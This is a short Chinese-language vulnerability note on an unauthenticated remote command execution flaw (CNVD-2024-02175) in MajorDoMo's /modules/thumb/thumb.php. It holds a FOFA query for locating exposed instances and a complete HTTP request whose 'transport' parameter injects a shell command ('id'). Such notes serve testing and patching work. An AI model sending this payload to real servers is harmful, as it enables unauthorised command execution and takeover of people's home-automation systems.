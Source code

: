 # MajorDoMo thumb未授权RCE漏洞(CNVD-2024-02175)

# 一、漏洞简介
MajorDoMo是MajorDoMo社区的一个开源DIY 智能家居Q自动化平台。MajorDoMo /modules/thumb/thumb.php接口处存在远程命令执行漏洞，未经身份验证的攻击者可利用此漏洞执行任意指令，获取服务器权限。

# 二、影响版本
+ MajorDoMo< 0662e5e

# 三、资产测绘
+ fofa`app="MajordomoSL"`
+ 特征

![1713627397596-ec6aa3a7-c04f-4580-9b3f-5b5aea561b6d.png](./img/2ovjcaHaRtUQroVP/1713627397596-ec6aa3a7-c04f-4580-9b3f-5b5aea561b6d-828706.png)

# 四、漏洞复现
```plain
GET /modules/thumb/thumb.php?url=cnRzcDovL2EK&debug=1&transport=%7C%7C+%28echo+%27%5BS%5D%27%3B+id%3B+echo+%27%5BE%5D%27%29%23%3B HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
```

![1713627778412-e955f94f-c4ec-466d-b9ec-d72be405ea16.png](./img/2ovjcaHaRtUQroVP/1713627778412-e955f94f-c4ec-466d-b9ec-d72be405ea16-632435.png)



> 更新: 2024-04-20 23:45:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nlakvnouzm2wkdy4>